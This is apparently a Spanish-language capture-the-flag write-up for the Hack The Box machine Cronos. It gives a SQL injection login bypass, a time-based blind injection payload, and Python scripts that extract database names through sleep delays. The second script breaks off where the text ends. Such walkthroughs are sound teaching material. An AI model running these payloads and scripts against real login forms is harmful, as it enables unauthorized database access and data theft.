 En admin.htb nos sale un panel de login. SI ponemos admin:admin nos dice "Invalid Username or Password" por lo que descartamos la fuerza bruta con Hydra!  
[cronos2](https://user-images.githubusercontent.com/96772264/209542000-388e443f-968d-416a-9013-bd4abeb061ee.PNG)

En cambio funciona la inyeccion sql más básica del mundo... ```admin' or 1=1```  
Acabamos en una sección donde el sistema ejecuta un ping, ya con eso pensamos en un OS command injection, pero antes vamos a exprimir la base de datos...  

Funciona la sqli basada en tiempo -> ```admin' and sleep(5)-- -```

--------------------------------------
## EL nombre de la base de datos actual

La primera inyección sería así:
```
"Si la primera letra de la base de datos actual es una "a" espera 2 segundos"
"admin' and if(substr(database(),1,1)='a',sleep(2),1)-- -" 
```
Por lo que la idea sería crear un script que iterara por cada letra por cada posicion... 

```python
#!/usr/bin/python3
import requests, time, string

caracteres = string.ascii_lowercase
url = "http://admin.cronos.htb/"
print("Base de datos actual: ")
resultado = ""
for pos in range(20):
    for letra in caracteres:
        sqli = "' and if(substr(database()," + str(pos) + ",1)='" + letra + "',sleep(2),1)-- -"
        data = { "username": "admin" + sqli, "password":"test"}
        inicio = time.time()
        req = requests.post(url, data=data)
        final = time.time()
        if final - inicio > 2:
            resultado += letra
            print(resultado)
            break
```

La base de datos en uso es "admin"

---------------------------
## EL nombre del resto de bases de datos

Ahora toca sacar todas las bases de datos...
```
' and if(substr((select schema_name from information_schema.schemata limit 1,1),1,1)='a',sleep(2),1)-- -
# El nuevo bucle "for i in range -> limit" itera por cada base de datos
```
```python
caracteres = string.ascii_lowercase + "_"
url = "http://admin.cronos.htb/"
print("Bases de datos: ")
resultado = ""
for i in range(10):
	for pos in range(20):
		for letra in caracteres:
			sqli = "' and if(substr((select schema_name from information_schema.schemata limit " + str(i) + ",1)," + str(pos) + ",1)='" + letra + "',sleep(2),1)-- -"
			data = { "username": "admin" + sqli, "password":"test"}
			inicio = time.time()
			req = requests.post(url, data=data)
```